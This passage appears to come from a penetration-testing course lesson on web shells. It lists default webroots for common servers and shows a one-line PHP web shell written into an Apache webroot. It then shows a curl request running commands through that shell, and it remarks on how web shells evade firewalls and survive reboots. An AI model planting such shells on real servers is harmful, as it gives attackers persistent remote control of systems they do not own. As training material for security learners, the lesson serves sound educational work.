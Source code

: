 Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\\inetpub\\wwwroot\\ |
| `XAMPP` | C:\\xampp\\htdocs\\ |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

___

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Another option is to use `cURL`:

Types of Shells

```shell
6165@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a `Python` script to automate this process and give us a semi-interactive web shell right within our terminal.

---